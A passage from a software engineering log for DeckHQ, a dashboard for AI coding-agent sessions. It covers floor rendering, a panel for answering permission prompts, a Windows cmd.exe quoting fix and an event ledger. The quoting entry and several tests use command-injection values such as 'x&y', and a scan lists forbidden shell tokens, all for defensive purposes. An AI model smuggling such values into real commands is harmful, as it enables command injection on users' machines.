  `bash`, `zsh`, `-lc`, `sh -c`, `osascript`, `do script`, `shell: true`, `cmd` or `start`
  anywhere, and it launches exactly one process, with `spawn` and a named argv array;
- the adapter surface on this Codex-free machine: `openInTerminal` with a hostile id and a pin
  still resolves rather than throwing, `openNewSession` still reports a missing Codex.

Plus one test in `terminals.test.mjs` for the re-export shim. 714 tests to 744.

## 96. WP-50 — the floor is generated from the people on it

`08` B6, delivered. The plan was a function of the repositories on disk:
`buildProjectRoom(p, p.sessionCount)` sized desks by session count with the
benched included, an idle project became a collapsed ROOM that still bid for
area in the treemap, and the squarifier then stretched every cell to tile its
band. The reference machine showed one furnished room and ten large empty
cells with a plate each.

It is now a function of two numbers and nothing else: **active projects** (at
least one agent with `activityState` in `working | needs_input | stalled |
for_review` and `ackState === 'active'`) and **active agents**.

| | before | after |
|---|---|---|
| project rooms on the reference floor | 11 (1 furnished, 10 empty) | **1, furnished** |
| that room's share of the floor | — | **59%** |
| bare carpet in it | — | **3.3%** |
| idle projects | 10 rooms, most of the working band | **17 lines in one strip, 8.2% of the floor** |
| people drawn | 70 | **16** |
| lounge | 47 benched | **12 benched · 35 went home** |
| px per unit at fit, 1600x1000 | 10.5 | **12.3** |
| character body / name label at fit | 26.4 px / 11 px | **31.1 px / 11 px** |

On the demo floor: five rooms, every one with at least one occupant, **6.6% to
7.4% bare carpet** in each, one idle repo in the strip.

Before and after, both populations, from the goldens' own captures:
`docs/media/floor-before-wp50.png` / `docs/media/floor-after-wp50.png`
(reference) and `docs/media/demo-before-wp50.png` /
`docs/media/demo-after-wp50.png`.

### The eight decisions inside it

**1. `ended` is not "on the floor".** The parenthetical in B6 is exact, and an
`ended` session that is still `active` is not in the set. A project whose only
sessions have finished is idle, so it gets a directory line — and the sessions
themselves are not drawn either, because there is no room to draw them in. On
the reference machine that is 19 of the 70. They are still counted in the
header, still in the panel, still one click from the strip's own line, which
carries their number. **This is the largest behavioural change in the package
and it is a display filter: nothing writes to `ackState`, and every
`INVARIANT:` test passes untouched.**

**2. A project with an agent waiting in the office keeps its room.** The agent
is drawn in the reception, not at its desk, but the room is its room: if it
folded away while its owner queued and reappeared the moment you acknowledged
it, the walls would move twice for one piece of work. So "no room without an
active occupant" counts the project's active agents, not the seats filled in
the room. The room gets its minimum one table.

**3. The plan decides who is drawn, and everything else reads that.** `buildPlan`
returns `plan.hidden` (gone home, plus desk agents in projects with no room)
and `plan.goneHome`. `assignSeats` and `AgentRuntime#sync` filter on it instead
of re-deriving the rule. §16, §35, §38, §52 and §55 are five bugs with one
cause — two representations of the same thing, allowed to disagree — and "who
is on the floor" was about to become the sixth.

**4. A caller that supplies a project with no agents falls back to the project
record.** `buildPlan(projects, [])` cannot invent people it was not given, so
when the agent list mentions a project id at all, the counts come from the
agents; when it mentions it not at all, `activeCount ?? sessionCount` is the
only thing to go on. On a real snapshot every project comes from its own
agents, so the fallback never fires there. It is what let 500-odd existing
assertions keep testing geometry rather than being rewritten to carry
populations they were never about.

**5. The strip is one horizontal band, capped at three rows.** B6 asks for "one
line per project ... it takes a plate's height, not a room". A line is
`DIRECTORY_LINE_H` (1.6 U) — under half a plate band — and the whole strip is
capped at `DIRECTORY_MAX_H` = a plate band plus three lines (9.2 U), flowing
into as many columns as it needs. **The acceptance text says "a strip no taller
than a room plate"; taken as the whole strip that is one row of seventeen
columns across 84 units, four units and about a hundred pixels per repo, and a
name is all that fits.** So the cap is on the LINE and on the strip's total,
and both are asserted. A project is never dropped from the directory whatever
the count — a repo you cannot see is a repo you cannot start an agent in — the
columns narrow and the names ellipsise instead. Measured: 17 repos in 3 rows of
6 columns, 13.9 U (172 px) per line at fit, every name legible.

**6. Gone home is measured against `lastActivityAt`, with two refusals.** A
window of `0` disables the filter rather than hiding everybody, and an agent
whose last activity is unknown (`undefined`, `0`) is DRAWN. The floor does not
hide what it cannot date. The boundary is exclusive: at exactly seven days you
are still in the lounge. `settings.goneHomeDays` is clamped to [0, 365] in
`store.mjs` the same way `stallWindowMs` is, and reaches the renderer through
the snapshot — no new state, no new file, nothing persisted about who is away.

**7. A large project room is furnished by its rug.** Desks now count agents, so
a room's furniture is routinely far smaller than the cell the treemap gives it
— on the reference floor, one two-seat table in an 88 x 67 room. A small rug in
a large room is §64's defect one level up: a group of desks adrift in the
middle of it. The rug therefore grows to the room, stopping 4 U clear of the
walls so the corner planting and the wall fixtures keep floor of their own.
That exposed a real bug in `backdrop.js`: a prop's contact shadow was
`h * 0.22` deep with no ceiling, so the room-sized rug cast a 380 px ellipse
across half the room. Depth says how THICK a thing is, not how big; capped at
10 px. The rug's border inset also scales now, because 6 px is a border on a
desk mat and invisible on a room. **Still open:** a room that large is honest
and sparse — one table, a rug, three plants, a whiteboard and a shelf. Denser
furnishing of a big room (a breakout group, planting along the long walls) is
interior design, not layout, and is left to WP-12 / UI/UX.

**8. The re-plan cross-fades. It does not slide.** B6 asks for walls that
slide. Sliding them means interpolating between two buildings that differ in
room count, band count, envelope width and envelope height — the plan has no
representation for a half-state, and the floor is one baked bitmap by design
(re-baking is ~190 ms, §68's own measurement). **Deviation, taken with the
escape hatch B6's own text offers:** the old backdrop is kept and faded out
over the new one across 260 ms. Reduced motion gets the cut, and so does a
stopped render loop — a hidden tab has no frames to fade with, and the single
`_draw` that a push makes would otherwise paint the old floor over the new at
full opacity and leave it there until the tab came back.

### People never shrink below legibility

`05` §6.2 states its floors PER ELEMENT, and that is how they are applied:
`rig.js` exports `LEGIBILITY_MIN_PX` (16 px body, 11 px label, 12 px icon,
13 px badge) and each one is enforced where that element is measured and drawn.
The label was floored at 9 px and the icon at 10; those are now 11 and 12. The
badge's pill grows with its floored font, which it did not before — at a tight
fit scale the glyphs stood proud of it.

The body's floor is a floor on `u`, which is the caller's, so `scene.js` holds
it: `characterScaleFor(worldScale) = max(worldScale, 16 / BODY_HEIGHT_U)`, and
everything hanging off a character — label box, badge, icon, the collision pass
— is measured in that frame rather than the world's. `BODY_HEIGHT_U` (2.52) is
exported from `rig.js` rather than recomputed in the test, for the same reason
as decision 3.

**Measured, and worth stating plainly: the character-scale clamp never fires on
any population this project has.** `CHAR_MIN_PX_PER_UNIT` is 6.35 and the
floor's own `MIN_SCALE` is 7.5, so the world scale already clears it
everywhere; at fit on 1600x1000 the reference floor draws people at 12.3 px per
unit, a 31 px body. What actually binds is the label, and the label is floored
where it is set. The decoupling is kept anyway: it is the structural half of
§6.2, it costs one `Math.max`, and it is what stops a future `MIN_SCALE` change
from silently taking the people with it.

The badge's own visibility gate keeps reading the WORLD scale, not the
character scale: the gate asks whether two office seats are far enough apart
for two badges, and the pitch between two seats is a fact about the floor, not
about how large the people standing on them are drawn.

### The reference fixture is the machine §0 measured

Two corrections to `scripts/demo-floor.mjs`'s `reference` population, both so
the golden photographs `08` §0's floor rather than an approximation of it:

- **Both office sessions belong to one project.** §0's floor is "one furnished
  room"; the second `for_review` fell on index 14, which put it in
  `web-console` and gave the fixture a second active repo the real machine did
  not have. It is now index 2, in `platform-api`. Counts are unchanged: 70
  sessions, 18 projects, 47 benched.
- **Ages span a month, not five days.** The real machine's benched sessions had
  been benched for weeks — that is what the gone-home window is FOR — and a
  fixture whose oldest session is five days old cannot photograph it. The
  fixture now spreads 2 h to 30 d, which sends 35 of the 47 home and puts
  `12 benched · 35 went home` on the lounge door in the golden.

### Goldens

Regenerated as the last step of the package, as the workplan requires. Three
of the four changed — `reference` and `demo` because the floor is a different
building, `single` because of the room-sized rug and the 9 px to 11 px name
label. **`empty` is byte-identical**, which is the control working: there is
nobody on that floor and no repo in its directory, so nothing WP-50 touches is
drawn on it.

The check is green against fresh captures on all four, and the harness's own
noise floor is unchanged from §87's measurement: 0 px over tolerance
everywhere, 36 px moved at all on `empty` and 0 on the other three.
## 97. WP-19 build — the panel can answer a permission prompt, and the run that proves it has not happened

Built against the contract in §86, which was measured on Claude Code 2.1.231.
**The acceptance criterion in WP-19 — _"a permission prompt raised by a session
is answered from the panel and the session continues, verified end to end on
the reference machine"_ — is still NOT met.** The CLI's stored OAuth token on
this machine is still expired, so no tool call can be provoked and no real
`PermissionRequest` has ever reached this code. Everything below is proved by
tests and by a scripted stand-in for the runtime's hook client; the one thing
neither can prove is that the installed runtime accepts the bytes DeckHQ puts
on the wire. Per `08` §1.1 rule 11 and WP-19's own text, **this feature stays
out of the README, out of a tweet and out of a pricing page until that run
happens.** The changelog entry says so in its own words.

### 97.1 What was built

**The hook.** `PermissionRequest` joins the tagged block in
`src/adapters/claude-code/hooks.mjs` as the ninth event and the only `http`
entry:

```json
{
  "type": "http",
  "url": "http://127.0.0.1:<port>/api/permission",
  "timeout": 600,
  "statusMessage": "Waiting for DeckHQ…",
  "_deckhq": true
}
```

No `matcher` and no `if` — the product's claim is that every raised hand
appears, so the hook narrows on nothing (§86.4). `timeout` is written
explicitly rather than inherited, so a future change to the runtime's own
default cannot silently shorten a hold under a card somebody is reading.
Install, remove, the byte-exact backup, the port-mismatch-reads-as-not-installed
rule and the one-click reinstall all inherit unchanged; `portOfEntry` now reads
a port from either an entry's command line or its literal URL, so a settings
file carrying only the `http` entry still reports its port correctly.

**The route.** `POST /api/permission`, in its own module, deliberately NOT
`/api/hook` — that one acknowledges in under 200 ms because the runtime is
blocked on it, and this one is blocked on a person. It parses through the
adapter (rule 8: the payload shape is Claude Code's), registers a
`pendingPermission` on the session, and writes nothing.
`POST /api/permission/decide` is the only thing in the product that can produce
a decision.

**The card.** `pendingPermission: {id, tool, summary, suggestions,
requiresUserInteraction, since}` rides on the agent in the snapshot and over
SSE, beside `currentTool` and with the same discipline: observed, transient, a
copy rather than a handle, and never touching a user-owned field. The panel
draws it above WHAT IT SAID with **Allow** / **Deny** / **Allow for session**
on `A` / `D` / `S`.

### 97.2 The five things it will never do, and where each is nailed down

| Never | Where it is enforced | Test |
| --- | --- | --- |
| auto-allow, on any heuristic | only `decide()` builds a decision body, and only the panel's POST reaches it | `INVARIANT: the hold expires into no decision at all` |
| answer on a timer | the one timer releases the socket with `{}` — no `hookSpecificOutput`, so not a decision | the same, plus the integration test's exit code 1 |
| set `interrupt: true` | `permissionDecisionBody` has no branch that emits it | `INVARIANT: deny never sets interrupt` |
| send a `destination` other than `"session"` | suggestions are echoed back with `destination` overwritten | `INVARIANT: Allow for this session sends destination:"session" and nothing else` |
| touch `ackState` / `reviewSince` / `needsInputSince` | `Permissions` holds no store reference and calls only two write-only registry methods | `INVARIANT: holding, answering and expiring a request never touch ack state`, and the registry-side `INVARIANT: a pending permission changes no user-owned field` |

The client half is guarded the same way: `answerPermission()` is its own funnel
to its own endpoint and never reaches `performAction()` or `/api/ack`, asserted
statically in `test/unit/panel-invariant.test.mjs` alongside the existing ack
invariants. `A` is also app.js's acknowledge shortcut: the panel's listener
runs first and claims the key **only** while a card is up, and a test asserts
the claim happens after the card check, never before.

### 97.3 Nine decisions this build took that §86 left open

1. **The deny message is `"denied from DeckHQ"`**, lower case and without a
   full stop — the package brief's literal wording. §86.3's table wrote
   `"Denied from DeckHQ."`. The string lands in the session's own transcript as
   the reason a tool did not run, so it is a user-visible piece of copy and the
   difference is recorded rather than silently reconciled. If the sentence case
   is wanted back, it is one literal in `permissionDecisionBody`.

2. **The hold is the runtime's timeout minus a margin, not the timeout.**
   `600_000 − 15_000 = 585_000 ms`, so the socket is released from our side
   before the runtime gives up on it and the withdrawal is orderly rather than
   a reset somebody has to explain. Configurable by
   `DECKHQ_PERMISSION_HOLD_MS` and by `startDaemon({permissionHoldMs})`, which
   is what lets the integration test prove the fall-through in 250 ms instead
   of ten minutes.

3. **A path outside the session's cwd is shown in full, not reduced to its
   basename.** This is the exact opposite of WP-52's thought bubble, and
   deliberately so. The bubble hangs over a floor that gets screenshotted, so
   an outside path loses everything but its file name. The permission card is
   the surface on which somebody decides whether to allow a write, and a write
   landing outside the project is precisely the case where hiding where it goes
   would be the dangerous choice. Both rules have their own `SECURITY:` test,
   and the tests name the reason so the next person does not "fix" one to match
   the other.

4. **Only `addRules` suggestions are kept.** The runtime's update union also
   carries `setMode`, `addDirectories`, `removeDirectories` and the `replace`/
   `remove` rule forms. Retargeting a `setMode` at the session would change the
   permission mode of a session from a web panel, which is a wider grant than
   the button's words. Anything that is not `addRules` is dropped, and a
   request that carried none is offered two buttons rather than three — absent,
   not disabled-with-a-tooltip, per §86.5.

5. **`2 Approve` gives up its fill while a card is up.** `05` §4.2 makes
   Approve the only accent-filled button on the panel. Allow is also a primary
   action, and two crimson-filled buttons is exactly the "which one is *the*
   action?" problem the single-fill rule exists to prevent. So while a
   permission card is showing, Allow is the filled button and Approve is plain;
   it keeps its key, its place and its label. The screenshot shows the result.

6. **The card carries no live clock.** `since` is in the snapshot and is part
   of the contract, but the panel does not render "held for 42 s". The card is
   already the most urgent thing on the screen and a second-by-second counter
   on it is noise, not information — and it would need a one-second timer in a
   panel that currently has one thirty-second one. The card simply vanishes
   when the hold ends.

7. **The `requires_user_interaction` set is a name list plus a payload flag.**
   `AskUserQuestion` and `ExitPlanMode` are named; MCP tools carry the property
   in metadata the hook payload does not currently include, so
   `requires_user_interaction` is also read off the payload against the day the
   runtime starts sending it. Those requests are still **held** — withdrawing
   them would be a lie about what the runtime is doing — the card says to
   answer in the terminal, offers no buttons, and the API refuses a decision
   with a 409 rather than sending an allow the runtime would discard.

8. **The held map is capped at 32 and sheds its oldest.** Held sockets are the
   only new resource this feature introduces (§86.5). A shed entry is released
   with `{}`, so shedding degrades into the terminal prompt like everything
   else here. A repeated `tool_use_id` replaces the older socket rather than
   orphaning it, and a payload with no `tool_use_id` still gets a card under a
   key of our own instead of being dropped.

9. **The consent screen's note is now paragraphs, not one block.** The
   `PermissionRequest` paragraph grants a runtime the ability to be *answered*
   rather than only watched, and it must not be the tail of a wall of text.
   `public/hooks-ui.js` splits an adapter's note on blank lines; still
   `textContent`, still no markup. The note names the button labels, says the
   hold length, and says in so many words that DeckHQ never allows anything by
   itself, never answers on a timer, never writes a permanent rule into a
   settings file, and that the terminal prompt is live the whole time. A test
   asserts each of those clauses is present.

### 97.4 Codex is not built, and here is the route when it is

§86.7 records, from documentation only, that Codex has `PermissionRequest` in
`~/.codex/hooks.json` with the same object-shaped response and the same
fall-through — **but its hook types are `command` and `mcp_tool` only, with no
`http`.** So the Codex adapter cannot point at `/api/permission` and this
package does not attempt it. `src/adapters/codex/hooks.mjs` is untouched and
still reports `supported: false`.

The follow-up, when it is picked up:

1. Have the daemon write its bound port somewhere readable (§86.6 option 2;
   that belongs in WP-36, not here).
2. Ship a `command` hook — a Node one-liner that reads the port, POSTs the
   payload it got on stdin to `/api/permission`, and prints the decision JSON
   to stdout. The endpoint, the hold, the card, the three buttons and the
   response body are all runtime-agnostic already; only the transport differs.
   It costs one process spawn per raised hand, which is affordable at one per
   prompt.
3. The same command hook is the fallback for the two managed-settings kill
   switches in §86.4, `allowedHttpHookUrls` and `allowManagedHooksOnly`, which
   can switch the `http` route off over DeckHQ's head. Neither is detected
   today: on a managed machine they look exactly like a hook that is installed
   and never fires, which is what the hooks screen's delivery evidence already
   reports. Making `doctor` name them by reading managed settings is a
   separate, small package.

None of this was run against Codex: it is not installed on this machine, and
the claim that the hook shipped in 0.150.0 is still unverified.

### 97.5 What proves what, and what is still owed

**Proved by test** (38 new; the suite goes 714 → 752, and the four goldens still match):

- The hook block: the `http` entry's type, URL, timeout and tag; that it
  narrows on nothing; that install / remove / repoint / backup still behave;
  that a port is readable from the `http` entry alone; that the consent screen
  names the event and says what it does, clause by clause.
- The payload parser: the tool, the literal input, the id, the suggestions and
  their labels; the two path rules; one line of printable text at 400
  characters; the `requiresUserInteraction` set.
- The response bodies, byte for byte, for all three buttons, plus every "never"
  in §97.2.
- The route: the socket is not written to while it is held; a malformed body,
  an unreadable payload and an unknown runtime all fall through; double
  answers, unknown ids, unknown decisions and a `session` with no rule are all
  refused without touching the held socket; the cap sheds; a closed socket
  withdraws the card.
- The registry: a card appearing, changing and vanishing moves no user-owned
  field, no activity state and no count, and a stale clear cannot take a newer
  card down.

**Proved by the scripted runtime.** `scripts/fake-permission-client.mjs` sends
§86.2's payload to the real route on a real daemon and waits on the socket the
way the runtime waits. `test/integration/permission.test.mjs` drives it for all
three buttons and for both fall-through paths (nobody answers; the daemon
closes mid-hold), asserting the exact JSON the fake runtime receives. The
prototype in `scripts/spike-permission/` is superseded by this and by the route
itself; §86.9 said to delete it when the build lands, and it is deleted here.

**Proved by screenshot** (`docs/media/permission-card.png`, rule 10). The demo
floor with a `PermissionRequest` held open on _Migrate auth to short-lived
tokens_: the card above WHAT IT SAID, the tool, the literal command, the three
buttons on their keys, the note about the terminal, one filled button on the
screen, and the raised hand still up on the floor beside it — the card came and
will go without the runtime having moved on. Reproduce it with:

```
node scripts/demo-floor.mjs --port 4499
node scripts/fake-permission-client.mjs --port 4499 \
  --session <the needs_input session's id> --tool Bash \
  --input "npx prisma migrate deploy --schema prisma/schema.prisma"
node scripts/capture-floor.mjs --url http://127.0.0.1:4499/ \
  --width 1600 --height 1000 --settle 9000 --press jjjjj \
  --out docs/media/permission-card.png
```

**Still owed, and it is the acceptance criterion itself:** `claude login` on the
reference machine, then a real interactive session raising a real prompt,
answered from the panel, and the session carrying on. Until that has been done
and recorded here, WP-19 is not accepted and the feature is not spoken about
outside this file and the changelog's own hedged entry.
## 98. Windows launch quoting — the one row that had been run, and the metacharacter it let through

**Spec:** `08-PLAN-V2-100X.md` §1.1 rule 8 and rule 11; `07-AGENT-HANDOVERS.md` Agent Backend's
"argv arrays only, never shell strings with interpolated user data". §95's third residual named
this and left it; this entry closes it.

**The defect, measured.** WP-04's Windows row was

```
cmd /c start "" cmd /k <argv>
```

spawned as an argv array, on the assumption that argv arrays are safe. They are — for
`CreateProcess`. `start` is not a program: it is an internal `cmd.exe` command, so `cmd.exe`
re-parses the whole command line after it, and `cmd.exe`'s parser is not `CreateProcess`'s. Node's
win32 argument quoting wraps a value in quotes only when it contains a space, a tab or a quote, so
`&`, `|`, `^`, `<` and `>` arrived bare, where `cmd.exe` reads them as syntax.

Run on the reference Windows 11 machine, old form:

| Value passed as one argv element | What the launched program received                       |
| -------------------------------- | -------------------------------------------------------- |
| `a & b`                          | `a & b` — survived, because the spaces made node quote it |
| `x&y`                            | **`x`** — `&y` was taken by `cmd.exe` as a second command |

That is the whole bug in one row. A session id arrives in a request body (`POST /api/open`,
`POST /api/resume`), so this is §28's failure with the target moved to the id, on the one platform
whose launch form had actually been exercised.

**Shipped.** The row builds its own command line and tells node not to touch it:

```
cmd.exe /d /s /c start "" /d "<cwd>" cmd /d /s /k <program> "<arg>" "<arg>"
```

with `windowsVerbatimArguments: true`. Every piece is load-bearing:

- **`/d`, twice, meaning two different things.** On `cmd.exe` it suppresses the AutoRun registry
  commands, so nothing a user's registry names runs inside a window DeckHQ opened. On `start` it
  is the working directory.
- **`/s` on both.** Documented as: if the first character after `/c` (or `/k`) is a quote, strip
  it and the last quote on the line. Neither line starts with a quote — `start` and the program
  name are bare words — so nothing is stripped and every argument keeps its quotes. This is why
  the program name must be a bare word, and why this needs none of the doubled-quote trick
  `editor.mjs` uses (there the first token is an absolute path and has to be quoted).
- **`/d "<cwd>"`.** The working directory used to be inherited through two processes from
  `spawn()`'s `cwd` alone. It is now also stated, which is the belt and braces every Linux row
  already had — and it means the cwd is a value this module quotes rather than one it hopes about.
- **The quotes, and the two characters refused rather than escaped.** `&`, `|`, `^`, `<`, `>` and
  `()` are literal inside double quotes. `"` and `%` are not: `cmd.exe` has no escape for a quote
  inside a quoted string, and `%VAR%` expands inside quotes. Both are refused.

**The quoting helper is shared, not duplicated.** WP-47 solved the same problem for `code.cmd`
(§90) and its rule lived inside `src/core/editor.mjs`. It moved to `src/core/cmdline.mjs` —
`cmdUnsafe`, `assertCmdSafe`, `cmdQuote`, `cmdRefusal`, `isCmdBareWord` — and both callers use it.
There is exactly one definition in the tree of what `cmd.exe` can be handed.

### The refusal, and why it is a refusal

An escaping scheme across three levels of re-parsing (node → `cmd.exe` → `start` → the inner
`cmd.exe`) is a thing to get subtly wrong. Refusing is not.

The error says why it is almost certainly not about the user: _"A Claude Code session id is a UUID
and never contains them, and a project folder with a `%` in its name is rare — so this is worth
looking at rather than working around."_ A `"` cannot appear in a Windows path at all.

`launchTerminal()` normally swallows a candidate's failure and walks on to the next emulator. It
re-throws this one, on `err.code === 'ERR_DECKHQ_CMD_UNSAFE'`: a value that cannot be quoted is a
fact about the id or the folder, not about the emulator, and no other terminal can make a `%` safe.
Swallowing it would have replaced a message that says what is wrong with "Could not open a
terminal." Tested.

### Deviations from §91 as written

1. **The Windows row is no longer an argv array, and §91's "argv arrays end to end" claim was
   false on Windows.** It is corrected in place there rather than quietly dropped. The security
   claim for this row is now a different one: the id and the cwd are each **one double-quoted word
   of a command line**, and no `cmd.exe` metacharacter is left outside a quoted region. That is
   asserted by reading the generated line back through `cmd.exe`'s own quoting rule
   (`unquoteCmdLine`) and by a scan that collects every metacharacter outside quotes
   (`bareMetachars`) — which must come back empty.
2. **`Launch` grew a `spawnOptions` field.** One launch form out of twenty-one needs a `spawn()`
   option, so the option travels with the form rather than being special-cased at the call site.
   A test asserts that `windowsVerbatimArguments` is set for exactly the Windows pair and for no
   other, so nothing else can quietly take responsibility for its own quoting.
3. **The program name is validated, though it is never user data.** DeckHQ's own adapters pass
   `claude` and `codex`. It is the one token left unquoted, so it is checked against
   `/^[A-Za-z0-9._+-]+$/` rather than trusted by convention — a guard against a future caller, not
   against the browser.

### Verified on a real machine

This is the one launch form in `terminals.mjs` that can be run where it was written, and §1.1 rule
11 says a documented claim is a hypothesis until it is. Both forms were launched on Windows 11
(Home, 10.0.28000) from node, detached, with a working directory of `…\scratchpad\probe dir & co`
— a space and an `&` — running `node probe.mjs "a & b" "x&y|z^w<v>u"`, where `probe.mjs` writes its
own `process.cwd()`, `process.argv` and `process.ppid` to a file:

- **Old form:** the window opened, and the probe received `["…\probe.mjs", "a & b", "x"]`. The
  `&y` was gone — eaten by `cmd.exe` as a command separator. That is the defect, observed.
- **New form:** the window opened; `process.cwd()` came back as `C:\…\scratchpad\probe dir & co`
  exactly, and `process.argv` as `["…\probe dir & co\probe.mjs", "a & b", "x&y|z^w<v>u"]` — every
  one of `&`, `|`, `^`, `<`, `>` intact. The console process's own command line, read back with
  `Win32_Process`, was `cmd  /d /s /k node "…\probe dir & co\probe.mjs" "a & b" "x&y|z^w<v>u"`,
  and it was still alive four seconds later, so `/k` holds the window open as intended.
- The new form was then run again through the **shipped entry point** — `launchTerminal()` itself,
  not a replica of the line — with the same result, and a second call with a cwd of `…\100%dir`
  rejected with `ERR_DECKHQ_CMD_UNSAFE` and the refusal message in full. Every window opened for
  these runs was closed afterwards.

### Acceptance

Nine new tests in `test/unit/terminals.test.mjs`, and the four Windows assertions across
`terminals.test.mjs` and `codex-terminal.test.mjs` rewritten for a command line rather than an
argv:

- the exact command line for an ordinary id and cwd, byte for byte, plus its `spawnOptions`;
- `windowsVerbatimArguments` is set for the Windows pair and for no other pair on any platform;
- `SECURITY:` a cwd of `C:\Users\ada\R&D projects\deckhq` and an argument of `a&b c` — a space and
  an `&`, the exact shape node's quoting got wrong — recovered as single words;
- `SECURITY:` `x&y|z^w<v>u(t)` survives as text, and no metacharacter is outside quotes;
- `SECURITY:` `"`, `%VAR%` and a control character in the id are refused, with `err.code` and the
  message asserted, including the two sentences that tell the user this is not normal;
- `SECURITY:` the same for the working directory;
- `SECURITY:` a program name that is not a bare word is refused;
- `SECURITY:` `launchTerminal()` surfaces a refusal rather than reporting "Could not open a
  terminal", and starts nothing;
- `launchTerminal()` forwards the form's `spawnOptions` to `spawn()`.

777 tests to 786. `npm run lint`, `npm run format:check` and `npm test` clean.

## 99. Codex `openNewSession()` — `codex`, not `codex resume new`, and the prompt it dropped

**Spec:** `07-AGENT-HANDOVERS.md` Agent Backend, and §95's "not fixed" item 1, which named this and
handed it to WP-23. It did not need to wait: the fix is one pure function and one call.

**The defect.** `openNewSession(cwd, opts)` delegated to `openInTerminal('codex:new', cwd)`, so
"new Codex session" opened a terminal running `codex resume new` — a resume of a session called
`new`, which does not exist — and `opts.instructions`, the first prompt the panel collects, was
dropped on the floor. The Claude Code adapter has carried that prompt since §91 (deviation 5);
Codex silently did not, which is exactly the kind of cross-adapter difference §95 was removing.

**Shipped.** A third pure builder beside `codexExecArgs` and `codexResumeCommand`:

```js
codexNewSessionCommand(instructions); // ['codex'] or ['codex', <prompt>]
```

and `openNewSession()` hands it to `launchTerminal()` itself, with `prefix: 'codex-new'` and the
user's pinned emulator, instead of borrowing the resume path. The prompt is user text from a
request body and travels the way a session id does: one argv element to `spawn()`, or one
single-quoted word inside the wrapper script for the three macOS applications that take no argv,
or one double-quoted word of the `cmd.exe` line on Windows (§98). Blank or whitespace-only
instructions mean no prompt at all rather than an empty argument.

**One deliberate change in behaviour.** `openNewSession()` no longer swallows a launcher failure.
Before, through `openInTerminal`'s best-effort contract, "no terminal emulator found" was
silently nothing and the route reported success; now the launcher's own message ("Could not open
a terminal. Tried: …") reaches the panel. This is what the Claude Code adapter does. The
best-effort contract on `openInTerminal()` itself is untouched, and `openNewSession()` still
throws `Codex is not installed` first, as `test/unit/codex-terminal.test.mjs` asserts.

**Still unverified against real Codex.** §8 and §95 item 2 stand. Whether plain `codex <prompt>`
is the right invocation for the installed Codex version is now the same class of assumption as
`codex resume <id>`, asserted as an array and run on nothing.

**Acceptance.** Three additions to `test/unit/codex-terminal.test.mjs`: the builder in both its
forms, including trimming and the absence of `resume` and `new`; `SECURITY:` a hostile first
prompt over all 19 (platform, emulator, launch form) pairs — exactly one carrier element equal to
it, none for the wrapper-script emulators, one quoted word with no bare metacharacters on Windows,
and the wrapper's `exec` line read back through `sh`'s grammar to the exact argv; and the source
scan now also asserts that `openNewSession` no longer resumes `'codex:new'` and does name
`codexNewSessionCommand`.
## 100. WP-17/48 — the event ledger: what it writes, what it refuses to touch, and the six decisions the package had to make

`06-ENGINEERING-WORKPLAN.md` WP-17 and `08-PLAN-V2-100X.md` §9 WP-48. Shipped as
`src/core/ledger.mjs`, a `GET /api/stats` route, `deckhq stats`, and
`deckhq ledger days | export [--signed] | verify`.

**The acceptance line that shaped every other decision:** *nothing in the ledger path may read or
mutate ack state*, and *a write failure must never block the state machine*. Those are not comments
here, they are the direction of the imports. `ledger.mjs` imports `log.mjs` and `model.mjs` and
nothing else — it cannot reach `Store`, so it cannot read `reviewSince` and cannot write `ackState`
even by accident. The state machine's `_noteLedger()` runs at the very end of `_rebuild()`, after
the agents are computed and assigned, and is handed two plain arrays. Every call site is inside a
`try` that swallows. `test/unit/ledger-invariant.test.mjs` drives one scripted session — a scan,
three hook events, a tick, three legal actions, one illegal one, a desktop archive, a send, and a
second scan with the token totals moved — through three registries: no ledger, a working ledger,
and a ledger whose `record()` and `markSeen()` both throw. The resulting `Agent[]` and the entire
ack map are deep-compared, along with the error the illegal action produced. A fourth assertion
greps the module for `store.mjs`, `setAck` and `reviewSince`, because the structural guarantee
should fail loudly if somebody later reaches for the shortcut.

**Decision 1 — `first_seen` is per day, and it carries `since`.** WP-17 asks that *a day's ledger*
reconstruct the needs-you queue at any past timestamp. A file holding only that day's transitions
cannot: a session that went `for_review` on Tuesday and is still waiting on Friday has no Friday
transition, so Friday would replay as an empty office. So the first time each local day that the
daemon sees a session it writes one `session/first_seen` carrying that session's `activity`, `ack`
and **the timestamp it entered that state**. Each day file is then self-contained, and an episode
that spans midnight is still measured from where it actually started — which is what makes
"longest wait ever" a real number rather than an artifact of when the file rolled over. A restart
inside one day re-reads the day file first (`prime()`), so a daemon bounced ten times does not look
like ten new floors. The cost is one extra record per session per day; on the reference machine's
93 sessions that is about 18 KB a day, and it is the entire reason the acceptance criterion is met
rather than approximated.

**Decision 2 — the day boundary is local, not UTC.** "Discharges per day" and "the office cleared"
are facts about the user's day. A ledger that rolled over at 01:00 local would split one evening's
work across two cards and make the daily postcard (WP-18) wrong on exactly the days it matters.

**Decision 3 — append with `O_APPEND`, and no `fsync`.** `store.mjs` writes atomically by
temp-then-rename because it rewrites a whole document; a ledger appends, and a rename-based append
would have to read the whole day back and would silently lose a second writer's records. The flush
opens the day file `a` and issues one `write()` for the batch, so two DeckHQ processes sharing a
state directory interleave whole batches rather than corrupting each other — asserted by a test
that flushes two `Ledger` instances at one directory and counts both. **Nothing is fsynced.** A
power cut costs up to 2 s of buffered records and, at worst, a torn final line, which
`parseRecords` skips. That is the deliberate difference from `state.json`: an acknowledgement is
the user's and must survive; a missing measurement is a slightly wrong median, and paying an
`fsync` every two seconds for the life of the daemon to protect a statistic is the wrong bill.

**Decision 4 — a failed write drops its batch and warns exactly once.** Retrying would grow a
buffer against a disk that has already said no. The buffer is capped at 10,000 records and drops
the *oldest* when it overflows, because the recent half is the useful half and a daemon that dies
of heap exhaustion takes the acknowledgements with it. `writeError` is exposed so `/api/stats` can
report `incomplete: true` rather than quietly returning a short answer.

**Decision 5 — `projectKey` is a hash, and it is the only project identity a record carries.**
Sixteen hex characters of SHA-256 over the directory, normalised for case and separators so Windows
and POSIX agree. `projectIdFromCwd` was deliberately not reused: its slug still contains the path
segments, so writing it down would put the user's directory layout into a file designed to be
handed to a team (WP-48/WP-49). Two `PRIVACY:` tests assert that no written record and no exported
day contains a path, a segment of one, or a project name. `/api/stats` and `deckhq stats` re-attach
names by hashing the cwds they already hold; a project the ledger knows and the floor does not
stays a hash, shortened, which is honest about not knowing.

**Decision 6 — `machineId` is random, not derived.** 32 hex characters of `randomBytes`, minted on
the first read of `store.machineId` and kept forever. Nothing in this repository sends it anywhere.
This is the first identifier the product has ever created and `08` §13.8 flags it for the owner's
